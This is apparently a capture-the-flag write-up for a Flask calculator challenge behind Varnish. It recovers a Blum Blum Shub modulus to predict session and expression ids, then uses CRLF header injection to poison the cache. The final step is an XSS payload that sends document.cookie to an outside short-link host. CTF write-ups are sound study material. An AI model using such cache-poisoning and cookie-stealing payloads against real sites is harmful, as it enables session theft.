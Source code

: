 # Advanced Calc

## The app

The app is a python flask script with some endpoint

- `/`: The main page with a calculator form and a button to trigger the bot
- `/view/<string:expression_id>` : The page that shows the result of an example of embed process
- `/embed/<string:expression_id>` : The page that shows the result of expression
- `/reset`: Reset session, pretty useless in the exploit

Details:

- Every calc_session is calculated with a Blum Blum Shup random number generator.
- Every expression is is calculated with calc_session, original_expression and a Blum Blum Shup random as secret key.
- In addition to the usual operators are also present:

```python
result,original = calculate(expression, replace_rule={
    'RANDOM': lambda: next(rng),
    'INTDIV': lambda x,y: x // y,
    'INTMOD': lambda x,y: x % y,
    'FACT': lambda x:  factorial(x),
    'RES': lambda: calc_sessions[g.calc_session_id]['last_result']
    }
)
```

## Bugs

### Predict random number generator

While normally the output from the random number generator algorithm BlumBlumShub is assembled from the lower j bits of several iterations, in this case, the function returns the complete current state of the rng. Knowing that, we can perform a statistical analysis over the distribution of the random numbers generated, massively reducing the search space and making a brute-force attack easy to execute.

### Header injection + Cache poisoning

We want to cache `/embed` pages.

Under this page we have cookie so Varnish by default ignore the cache. We can "bypass" this behavior with a temp var between `vcl_recv` and `vcl_backend_fetch` and between `vcl_backend_response` and `vcl_deliver`.
But during this steps we urldecode the cookie and because varnish is vulnerable to header injection we can inject content before caching process.

So using this bug by visiting `/embed/{expression_id}?calc_session={something}%0d%0a%0d%0a{payload}` we can add content directly to the page.

## Exploitation

### Predict calc_session and expression_id

Using the `${RANDOM}-${RANODM}....` operator we can ask 3003 subsequence random numbers.

We can make retrieve the value M used in the BlumBlumShub algorithm, by analyzing the random numbers generated. We first calculate an educated guess with the formula `highest + (highest - n) // n`. With 3000 samples, the actual value of that is typically off by 200k - 300k. With that knowledge we can do an offline bruteforce attack, starting from our prediction and then moving outwards, using a, b and c to check if the chosen value is equal to M. Once we have retrieved M we can always predict the next random number from the current state.
```python
n = len(numbers)
highest = max(numbers)

prediction = int(highest + (highest - n) // n)

M = -1
for i in range(prediction):
    pn = prediction + i
    if (a*a) % pn == b and (b*b) % pn == c:
        M = pn
        break
    pni = prediction - i
    if (a*a) % pni == b and (b*b) % pni == c:
        M = pni
        break

assert M != -1, M
```

> **_NOTE:_** The next steps stricly depends on how many request will you do to the server in the exploit

So, the next session_id will be 

```python
session_id = (numbers[-1] * numbers[-1]) % M
```

And the bot's next expression_id will be

```python
expression_id = sha256(f'15+18{session_id}{(session_id[-1] * session_id[-1]) % M}').hexdigest()
```

### Cache poisoning + XSS

With the information taken in the previous step, we can insert some payload in the cache.

Let's take a look to `script-src` in the CSP: `self`

So we have to make a script like this `<script src='/embed/a' ></script>`. This means that we have to inject **TWO** entry in the cache.

Make some shit:

```python

# Here we are strict to 46 chars 'cause the Content-Lenght of `[SYSTEM ERROR] Expression id not found. Retry.`

xss_payload = "top.location=`//t.ly/OTzDs?`+document.cookie;" 
requests.get(f'/embed/X?calc_session={session_id}%0d%0a%0d%0a{xss_payload}')

xss_payload = "<script src='/embed/X'></script>" 
requests.get(f'/embed/{expression_id}?calc_session={session_id}%0d%0a%0d%0a{xss_payload}')

```

Perfect now we can run the bot :)
